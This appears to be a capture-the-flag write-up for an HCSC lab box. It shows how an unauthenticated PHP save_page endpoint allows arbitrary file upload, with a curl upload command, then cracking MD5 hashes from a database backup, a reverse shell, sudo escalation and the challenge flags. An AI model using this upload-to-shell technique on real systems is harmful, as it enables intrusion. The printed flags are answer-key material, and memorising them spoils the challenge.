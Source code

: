 # Checking the site

Visiting the ip:port in a browser <http://10.10.8.10:3123/> shows a `Tiny File Manager`.

![](screenshots/1.png)

# File Manager

The source is available at <https://github.com/prasathmani/tinyfilemanager>.

![](screenshots/2.png)

The default credentials work, but only for read-only access. This can still be used for looking around what else is on the server.

The following files can be found. 

# Admin panel

A custom admin panel without a backend database, but there is a corresponding backup.

The `admin/ajax.php` file.

```php
<?php
...
$action = $_GET['action'];
include 'admin_class.php';
$crud = new Action();
...
if($action == "save_page"){
	$save = $crud->save_page();
	if($save)
		echo $save;
}
 
if($action == "save_page_img"){
	$save = $crud->save_page_img();
	if($save)
		echo $save;
}
...
?> 
```

The `admin/admin_class.php` file.

```php
<?php
...
Class Action {
	private $db;
 
	public function __construct() {
		ob_start();
   	include 'db_connect.php';
    
    $this->db = $conn;
	}
	function __destruct() {
	    $this->db->close();
	    ob_end_flush();
	}
...
	function save_page(){
		extract($_POST);
		// if()
		if(!empty($page_content)){
			$save = file_put_contents('../'.$filename, $page_content);
			if($save)
				return 1;
		}else{
			$fh = fopen('../'.$filename, 'w' );
			fclose($fh);
				return 1;
		}
	}
...
}
?> 
```

Based on the 2 php files above, any file can be uploaded, there is no authentication. The php files uploaded are executable.

```bash
curl -v -X POST 'http://10.10.8.10:3123/admin/ajax.php?action=save_page' -d "filename=test.php&page_content=it works<?php phpinfo();?>" 
```

# Database backup

The database backup `database/college_website_db.sql`.

```sql
INSERT INTO `users` (`id`, `name`, `username`, `password`, `type`) VALUES
(1, 'Administrator', 'admin', '0192023a7bbd73250516f069df18b500', 1);

--INSERT INTO `users` (`id`, `name`, `username`, `password`, `type`) VALUES
--(2, 'Apollo', 'apollo', '64024c4afaac000b12ddcd2e0c51512b', 1);
```

The md5 hashes can be recovered: `admin123` and `apollo13`.

# Shell

Our favorite web/reverse shell can be used for unrestricted code after the upload. The flag is in `apollo`'s home directory.

![](screenshots/3.png)

# Flag local
`{HCSC}-L0c@l_Fl4G:Ap0llo`

# Apollo

Checking the users, `apollo` can be found. Also the local flag was there. Using the password `apollo13` from the database backup works. The user also has sudo rights. The flag is in the `/root/` directory.

![](screenshots/4.png)

# Flag root
`{HCSC}-Ro07:Fl4G_oN$Ap0llO`

# Spoiler

Apollo has users on other challenges. His admin password is reused later, but there is an ssh key pair in his home folder.

![](screenshots/5.png)